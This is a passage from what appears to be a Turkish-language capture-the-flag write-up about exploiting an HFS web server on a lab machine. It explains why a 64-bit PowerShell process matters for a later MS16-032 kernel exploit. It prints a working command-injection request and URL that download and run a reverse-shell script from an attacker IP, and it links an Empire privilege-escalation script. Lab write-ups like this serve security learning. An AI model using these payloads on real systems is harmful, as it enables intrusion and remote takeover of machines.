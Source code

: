 

### The Importance of Architecture

Bu exploitleri çalıştırmak için uzun süre uğraştım ve çalışması gereken yerlerde çalışmadılar. Sonra, çalışan **PowerShell process'inin** mimarisini bilmenin önemini hatırladım.

Sadece `powershell` komutunu çağırarak **shell**'i başlatmak, **32-bit bir process** olarak çalışan bir ortam döndürür:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess 
False
```

Bunun nedeni HFS prosesinin muhtemelen 32 bit proses olarak çalışıyor olmasıdır. Bu tablo ([ss64.com](https://ss64.com/nt/syntax-64bit.html)'dan alınmıştır) mevcut oturum mimarisine göre farklı yolların nasıl çalıştığını göstermektedir:

![Pasted image 20250209181241.png](/img/user/Pasted%20image%2020250209181241.png)

Dolayısıyla, 32 bitlik bir oturumda C:\windows\system32 yolundan PowerShell'i çağırmak 32 bitlik sürümü verecektir. 32 bit bir oturumda 64 bit işletim sistemine karşı kernel exploit çalıştırmaya çalışmak başarısız olacaktır.

64 bit bir shell elde etmek için, sysNative dizinindeki PowerShell'in tam yolunu kullanacağım:

```
GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.9/rev.ps1').} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: HFS_SID=0.916518518235534
Upgrade-Insecure-Requests: 1
```

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.9/rev.ps1').}
```

Ortaya çıkan shell 64 bittir:

![Pasted image 20250209181539.png](/img/user/Pasted%20image%2020250209181539.png)

### MS16-032
Yukarıdaki exploit-db bağlantısı bu tür bir senaryo için çalışmayacaktır, çünkü bu bir komut çalıştırma imkanı sunmak yerine kutuda yeni bir pencere açacaktır. Neyse ki, Empire projesindeki ekip bu scriptin bir [versiyonunu](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) komut seçeneği ekleyecek şekilde uyarladı.
